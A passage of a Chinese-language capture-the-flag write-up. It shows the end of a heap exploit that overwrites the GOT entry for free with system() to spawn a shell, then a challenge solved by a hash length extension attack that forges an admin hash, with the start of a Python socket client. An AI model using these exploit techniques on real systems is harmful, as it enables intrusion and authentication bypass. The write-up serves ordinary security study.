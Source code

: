 ```python
edit(1, buf=zio.l64(GOT_FREE))
edit(0, buf=zio.l64(system_addr))
edit(1, buf=zio.l64(binsh_addr))
delete(0)

io.interact()
```


## `300` `salt`

本题向服务器提交用户名和密码后会组合成字符串并返回带salt的hash值，需要伪装为admin用户并提供hash，一看到这题把salt值放在最前面就联想到hash length extension attack，刚好根据url的特性还能用后面的username值覆盖前面的。不过问题在于返回的值里面缺少了7位，而且同样的字符串不能询问两次，这里同样采用length extension的思路询问扩展后字符串的hash值，然后枚举原字符串hash值中所有的空位及其经过extension后的结果，看是否与第二次返回的hash相符。因为服务器的时限是120s，用python写大概能枚举完1/16，懒得用C重写所以就多跑几次，最后运气好就过了。

```python
#!/usr/bin/env python2

import sys
import time
import socket
import select
import string
import re
import os
from struct import pack
from struct import unpack
import random
from hashpumpy import hashpump
from itertools import permutations

DEFAULT_TIMEOUT = 100
class Connection:
    """Connection abstraction built on top of raw sockets."""

    def __init__(self, remote):
        self._socket = socket.create_connection(remote, DEFAULT_TIMEOUT)

        # Disable kernel TCP buffering
        self._socket.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

    def __enter__(self):
        return self

    def __exit__(self, type, value, traceback):
        self.disconnect()

    def disconnect(self):
        """Shut down and close the socket."""
        self._socket.shutdown(socket.SHUT_RDWR)
        self._socket.close()

    def recv(self, bufsize=4096, timeout=DEFAULT_TIMEOUT, dontraise=False):
        """Receive data from the remote end."""
        self._socket.settimeout(timeout)
        try:
            return self._socket.recv(bufsize)
        except socket.timeout:
            if dontraise:
                return b''
            else:
                raise

```